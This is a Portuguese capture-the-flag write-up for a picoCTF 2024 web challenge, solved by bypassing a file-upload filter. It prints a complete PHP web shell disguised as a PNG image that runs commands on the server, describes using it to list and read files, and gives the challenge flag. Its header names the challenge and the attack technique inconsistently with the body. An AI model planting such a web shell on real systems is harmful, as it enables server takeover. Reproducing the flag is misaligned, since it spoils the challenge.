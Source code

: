 # DuckWare Team - Web Gauntlet (picoCTF 2024)
###### Solved by @xpics and @JoaoPedroPiceli
>This CTF is about SQL Injection, Web exploitation

# Desafio: Exploração Web

## Introdução

Este desafio explora vulnerabilidades em aplicações web, exigindo uma abordagem metódica para encontrar e explorar falhas.

- **Página do Desafio:** [Link do Desafio](https://play.picoctf.org/practice/challenge/445)

## Descrição do Desafio

O desafio Trickster do picoCTF 2024 requer análise de páginas web, inspeção de código-fonte e exploração de possíveis falhas na aplicação para encontrar a flag escondida.

## Estratégia de Solução

### Análise Inicial

- **Leitura da Descrição:** Ao entrar na página inicial, encontramos uma funcionalidade que permite o upload de imagens. Isso sugere a possibilidade de explorar o upload de arquivos maliciosos, um vetor de ataque comum em desafios anteriores do time.

[![Captura de Tela](https://i.postimg.cc/Pr136t5q/Captura-de-tela-2025-02-13-194158.png)](https://postimg.cc/cr4BCGYq)

### Explorando o Upload de Arquivos

A abordagem utilizada foi criar um arquivo com código malicioso e tentar fazer o upload mascarando sua extensão. Para isso, utilizamos um arquivo `.php` disfarçado de imagem, nomeado como `png.php`. Esse arquivo contém um **web shell**, permitindo a execução remota de comandos no servidor.

### Código Malicioso Utilizado

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Esse código cria uma interface simples onde podemos inserir comandos no campo de texto e executá-los diretamente no servidor.

## Recuperando a Bandeira

Após realizar o upload do arquivo, acessamos a URL: [http://atlas.picoctf.net:59959/uploads/nomedoarquivo.png.php](http://atlas.picoctf.net:59959/uploads/nomedoarquivo.png.php)

[![Captura de Tela](https://i.postimg.cc/Qd4pmP1t/Captura-de-tela-2.png)](https://postimg.cc/v4ngH0PF)

Agora, com acesso ao terminal via web shell, podemos utilizar os seguintes comandos para listar os arquivos disponíveis:

[![Comandos](https://i.postimg.cc/k5Rtc571/aaaa.png)](https://postimg.cc/94VMXCRZ)

Após executar esse comando, obtemos a listagem de todas as pastas e arquivos disponíveis. O próximo passo é explorar esses arquivos para encontrar a flag.

[![captura-de-todos-os-arquivos-txt.png](https://i.postimg.cc/VkpJdcXj/captura-de-todos-os-arquivos-txt.png)](https://postimg.cc/PCbXR93x)

## Passos Finais

Entre os arquivos listados, um dos que mais chamam a atenção é: `/var/www/html/HFQWKODGMIYTO.txt`. Utilizando o comando `cat` para visualizar seu conteúdo, encontramos a seguinte informação:

[![flag.png](https://i.postimg.cc/15zXBzHG/flag.png)](https://postimg.cc/RqjvV42h)

Ao analisarmos atentamente, verificamos que esse arquivo contém a flag do desafio.

## Flag:

**picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}**
